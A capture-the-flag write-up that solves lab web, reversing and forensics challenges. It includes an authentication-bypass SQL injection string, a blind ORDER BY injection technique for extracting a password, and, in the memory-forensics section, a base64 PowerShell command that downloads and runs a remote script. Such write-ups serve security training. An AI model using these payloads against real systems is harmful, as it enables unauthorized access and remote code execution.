# WEB - EsQueElle (600)

> We think our agency's login panel application might be vulnerable. Agent, could you assess the security of the website, and help us prevent malicious actors from gaining access to our confidential information?

As this is a web challenge, let's first look at the login page of the application.


First thing we can try is a SQL injection using `admin' or 1=1--` as the username and any character for the password (I'll be using `a` in this case).


Hooray, the login page is definitely vulnerable to SQL injections! The flag is HTB{sql_injecting_my_way_in}.


# WEB - Swift Jobs (600)

> You have been tasked with a pentesting engagement on a job posting platform. They've provided you with a mockup build of the website, see if you can find a way to disclose any sensitive information.

First, let's visit the web appliation.



Now, let's see the requests using Burp Suite.



I found that the POST request sends `date DESC` which is a SQL ORDER BY clause. Let's send the request to repeater and see if it's vulnerable by using CASE WHEN statement.

For the first test, I will make the condition true. If the injection works, then the results should be ordered by the date, ascending. 



The true condition indeed worked and sorted the results by the date. To make sure that it really is vulnerable, I am now going to make the condition false and see if it orders the result by salary.



From the result, it sure shows that the results are ordered by the salary.

Based on the source code that was given, the flag is held in the `users` table where the username is `flagholder`. First, I am going to find the length of the password using intruder.




Based on the injection, a true condition would return a reponse containing the results in the order (by title) of):
```python
[{"id":8,"title":"Community Manager","salary":2700,"location":"Texas City","type":"Remote","date":"2021-08-27"},
{"id":5,"title":"Content Engineer","salary":3000,"location":"San Antonio","type":"Remote","date":"2021-08-07"},
{"id":1,"title":"Graphic Designer","salary":2000,"location":"Houston","type":"Freelance","date":"2021-09-15"},
{"id":4,"title":"Marketing Manager","salary":4500,"location":"Amarillo","type":"Full Time","date":"2021-09-12"},
{"id":6,"title":"People Operations Manager","salary":2900,"location":"El Paso","type":"Full Time","date":"2021-09-08"},
{"id":3,"title":"Product Designer","salary":3000,"location":"Austin","type":"Full Time","date":"2021-09-03"},
{"id":2,"title":"Project Manager","salary":4000,"location":"Dallas","type":"Contract","date":"2021-09-10"},
{"id":7,"title":"Sales Executive","salary":2000,"location":"Arlington","type":"Full Time","date":"2021-08-13"}]
```
Whereas, a false condition would return the following response:
```python
[{"id":1,"title":"Graphic Designer","salary":2000,"location":"Houston","type":"Freelance","date":"2021-09-15"},
{"id":7,"title":"Sales Executive","salary":2000,"location":"Arlington","type":"Full Time","date":"2021-08-13"},
{"id":8,"title":"Community Manager","salary":2700,"location":"Texas City","type":"Remote","date":"2021-08-27"},
{"id":6,"title":"People Operations Manager","salary":2900,"location":"El Paso","type":"Full Time","date":"2021-09-08"},
{"id":3,"title":"Product Designer","salary":3000,"location":"Austin","type":"Full Time","date":"2021-09-03"},
{"id":5,"title":"Content Engineer","salary":3000,"location":"San Antonio","type":"Remote","date":"2021-08-07"},
{"id":2,"title":"Project Manager","salary":4000,"location":"Dallas","type":"Contract","date":"2021-09-10"},
{"id":4,"title":"Marketing Manager","salary":4500,"location":"Amarillo","type":"Full Time","date":"2021-09-12"}]
```

I can use this information to grep for a successful response.





This shows that the password contains 31 characters. Now we can try to brute force the password column using the same concept of conditions.




Now that I have all the results, I can filter to only show those that returned a true condition response, and then sort it by payload.



With just a little ordering of the payloads, I found that the flag is HTB{0rd3r_0f_th3_p34ky_bl1nd3rs}

# REVERSING - baby ransom (325)

> One of your colleagues has downloaded this binary and after running it, all your files under ~/Documents have been encrypted inside a .zip file. You have to find the .zip password or pay 200k in order to decrypt them. p.s. All files are just copied and not moved/deleted just for the challenge.

From the challenge information, it says that everything under ~/Documents will be zipped and encrypted. So maybe if there were to be nothing in ~/Documents then the zip command will throw an error.

In my ~/Documents directory, I made sure that nothing was inside, then I executed the binary.


Nice, seems like the zip command that is used does return an error, where we can see the password that was used is HTB{n0t_s0_h1dd3n_p4ssw0rd}. 

# REVERSING - Gate (325)

> In order to proceed, you need to pass through the gate. Do you know the secret password?

Since this is a reversing challenge, I like to run the `strings` utility on the executable to find any readable strings. Knowning that the flag format is `HTB{}`, I can pipe the `strings` command with `grep`.
```
kali@kali:~$ strings gate | grep HTB
HTB{s3cr3t_p455w0rd_1n_str1ngs}
```

Yay, the execuatable's passphrase is revealed and it's HTB{s3cr3t_p455w0rd_1n_str1ngs}.


# FORENSICS - Log (225)

> I recently found a file in my personal folder which is not mine. I dont know what it is but I hope that none messed with my PC.

Using `wireshark` I can examine the pcap file and we can see that the traffic that was captured are USB keyboard captures. 



We can use a python script to parse the traffic from the pcap file using a python library called [Scapy](https://pypi.org/project/scapy/)

Execute `pip install scapy` to install scapy.

```
kali@kali:~$ pip install scapy
```

```python
from scapy.all import *

map = { "0x0": "", "0x04": "a", "0x05": "b", "0x06": "c", "0x07": "d", "0x08": "e", "0x09": "f", "0xa": "g", "0xb": "h", 
"0xc": "i", "0xd": "h", "0xe": "k", "0xf": "l", "0x1": "m", "0x10": "m", "0x11": "n", "0x12": "o", "0x13": "p", "0x14": "q",
"0x15": "r", "0x16": "s", "0x17": "t", "0x18": "u", "0x19": "v", "0x1a": "w", "0x1b": "x", "0x1c": "y", "0x1d": "z", "0x1e": "!", 
"0x1f": "2", "0x20": "3", "0x2": "#", "0x21": "4", "0x22": "5", "0x23": "6", "0x24": "7", "0x25": "8", "0x26": "9",  "0x27": "0",
"0x2a": "DELETE", "0xb8": "{", "0xb9": "}", "0x2c": " ", "0x5": "B", "0xc8": "&&", "0x82": "", "0x8": "e", "0x9": "f", "0x4": "a",
"0x36": ",", "0x28": "RETURN", "0x7": "d", "0x6": "c", "0x37": ".", "0x33": ";", "0x39": "", "0x2f": "{", "0x2d": "_", "0x30": "}"}

packets = rdpcap("log.pcap")

cap = False

for i in packets:
    try:
        special = hex(i[0].load[-6])

        if special == "0x39":
            if cap == True:
                cap = False
            elif cap == False:
                cap = True

        if special == "0x2A":
            print("DELETE")
        elif special == "0x28":
            print("")
        else:
            if cap == True:
                print(f"{map[special].upper()}", end="")
            else:
                print(f"{map[special]}", end="")
    except KeyError:
        pass
```

```
kali@kali:~$ python3 script.py
mBm#u&&m#hello mr ffrank,

i would like to welcome you in our team.
i already created an account for you. make sure to change the password after the first login.
username; cfrank
password; ##HTB##{y0!nk3d_th4t_4cc0unt!}

ssincerely sa.
```

The result isn't perfect, however, with some trial and error, the flag turns out to be HTB{y01nk3d_th4t_4cc0unt!}.


# FORENSICS - Compromised (250)

> Along with the previous attack, we suspect that there were more following. They believe that they can gain access to every system we own without being detected. Do they have enough skills?
Find the attacker's IP
Find the malicious's process ID
Find the timestamp that the malicious process had been initiated
Flag format: HTB{attacker's-IP_malicious-proc-ID_YYYY-MM-DD_HH:MM:SS}
Mirror: 165.22.118.226/forensics_compromised.tar.gz

After decompressing this archive file, I noticed that its a `.raw` file so I instantly thought of using [Volatility](https://github.com/volatilityfoundation/volatility). 

First, let's determine the profile.


We can now set the profile as `Win7SP1x86_23418` and then list the command line commands using `cmdline`.


From the `cmdline` command, we can see that a `powershell.exe` was ran, and a base64 encoded string was passed to it.

`aQBlAHgAIAAoACgAbgBlAHcALQBvAGIAagBlAGMAdAAgAG4AZQB0AC4AdwBlAGIAYwBsAGkAZQBuAHQAKQAuAGQAbwB3AG4AbABvAGEAZABzAHQAcgBpAG4AZwAoACcAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADkAOgA4ADAALwA1ADQALgBwAHMAMQAnACkAKQA=`

We can try to decode it using [CyberChef](https://gchq.github.io/CyberChef/).


After decoding the base64 strings, we can see that the attackers IP address is `192.168.1.9`.

Now we need to get the timestamp of this command being run. To do that, we can use Volatility's `pslist` command. With this command you can also reveal the process ID.


Finally, we can now craft the flag using:

attacker's-IP == `192.168.1.9`,
malicious-proc-ID == `2880`,
YYYY-MM-DD == `2021-02-06`,
HH:MM:SS == `00:41:29`

The flag is HTB{192.168.1.9_2880_2021-02-06_00:41:29}.


# FORENSICS - Suspicious (225)

> We have noticed that one of our IT employees has access to servers and files that he should not. We confronted him but he denied every accusation. Can you prove him wrong?

Using `wireshark`, I can examine the traffic that was captured and extract a file that was downloaded.

